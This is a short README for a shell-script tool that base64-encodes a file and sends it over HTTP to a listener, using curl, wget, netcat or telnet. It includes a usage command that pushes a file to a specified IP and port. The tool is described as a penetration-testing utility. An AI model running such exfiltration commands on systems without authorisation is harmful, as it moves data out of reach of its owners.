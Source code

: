 #######################################################################

Red Crow Labs 

#######################################################################

DESCRIPTION: 

rcHTTPexfil is a shell script which takes in a text file, base64 encodes it, and attempts to transmit it to a specified IP and Port using HTTP. This tool tries various methods for transmitting including curl, wget, netcat, and telnet.

This is a basic and insecure data exfiltration tool which is useful when doing testing on a system and there is a need to copy data from it to a central host for analysis.

========================================================================= INSTALL:

INSTALLATION:

git clone https://github.com/redcrowlab/rcHTTPexfil.git

========================================================================= USAGE:

USAGE:

chmod 755 rcHTTPexfil.sh
./rcHTTPexfil.sh [filename] [URL] [Port]

example:

./rcHTTPexfil.sh surveyData.txt http://192.168.1.10 8080

On the listener side do:

python rcHTTPexfilListener.py 192.168.1.10 8080

========================================================================= NOTE:

NOTE: Requires python on the listener host and curl, wget, netcat, or telnet on the transmitting host.
